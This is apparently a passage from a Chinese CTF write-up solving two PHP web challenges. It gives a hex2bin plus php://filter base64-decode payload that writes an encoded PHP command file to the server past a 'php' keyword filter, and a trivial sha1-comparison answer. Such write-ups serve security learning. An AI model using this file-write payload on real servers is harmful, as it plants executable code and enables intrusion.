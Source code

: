 这题相比上一题多了一个过滤

```
if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
```

继续用上题的方法即可

payload:

```
v1=hex2bin
v2=665044383959474E6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
```

#### web104

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 22:27:20

*/


highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}



?>
```

使v1=v2即可

```
v1=1
v2=1
```
